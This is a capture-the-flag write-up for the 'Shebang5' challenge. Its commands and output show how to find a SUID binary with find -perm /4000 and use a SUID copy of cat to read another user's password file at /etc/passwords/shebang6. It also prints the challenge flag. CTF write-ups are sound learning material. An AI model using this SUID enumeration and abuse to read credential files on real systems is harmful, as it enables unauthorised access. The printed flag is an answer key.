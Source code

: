 # Shebang5

> "there is a very bad file on this Server. can yoU fInD it."

Notice the capitalisation of U I & D in the above clue;

That makes me think we're looking for a SUID

```
shebang5@fe2149a30ae1:~$ find / -path /sys -prune -o -path /proc -prune -o -perm /4000
/var/tmp/hi/bash
find: '/var/cache/ldconfig': Permission denied
find: '/var/cache/apt/archives/partial': Permission denied
find: '/var/cache/private': Permission denied
find: '/var/log/private': Permission denied
find: '/var/lib/apt/lists/partial': Permission denied
find: '/var/lib/private': Permission denied
/var/cat
find: '/etc/ssl/private': Permission denied
find: '/run/lock': Permission denied
find: '/run/sudo': Permission denied
/proc
find: '/home/shebang4': Permission denied
find: '/home/shebang3': Permission denied
find: '/home/shebang2': Permission denied
find: '/home/shebang1': Permission denied
find: '/home/shebang0': Permission denied
/sys
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
find: '/root': Permission denied
```

`/var/cat` looks inteersting?.!

```
shebang5@fe2149a30ae1:~$ ls -al /var/cat
---s--x--x 1 shebang6 root 16992 Oct 14 20:51 /var/cat
```
ok so "**shebang6**" is the owner of this file... now lets see if there are any files owened by 'shebang6';

```
shebang5@fe2149a30ae1:~$ find / -path /sys -prune -o -path /proc -prune -o -user shebang6
find: '/var/cache/ldconfig': Permission denied
find: '/var/cache/apt/archives/partial': Permission denied
find: '/var/cache/private': Permission denied
find: '/var/log/private': Permission denied
find: '/var/lib/apt/lists/partial': Permission denied
find: '/var/lib/private': Permission denied
/var/cat
/etc/passwords/shebang6
find: '/etc/ssl/private': Permission denied
find: '/run/lock': Permission denied
find: '/run/sudo': Permission denied
/proc
find: '/home/shebang4': Permission denied
find: '/home/shebang3': Permission denied
find: '/home/shebang2': Permission denied
find: '/home/shebang1': Permission denied
find: '/home/shebang0': Permission denied
/sys
find: '/root': Permission denied
```

`/etc/passwords/shebang6` <---- that's got to be something?!

```
shebang5@fe2149a30ae1:~$ /var/cat /etc/passwords/shebang6 
CYCTF{W3ll_1_gu3$$_SU1D_1$_e@$y_fl@g$}
```

And there's the flag;

## CYCTF{W3ll_1_gu3$$_SU1D_1$_e@$y_fl@g$}
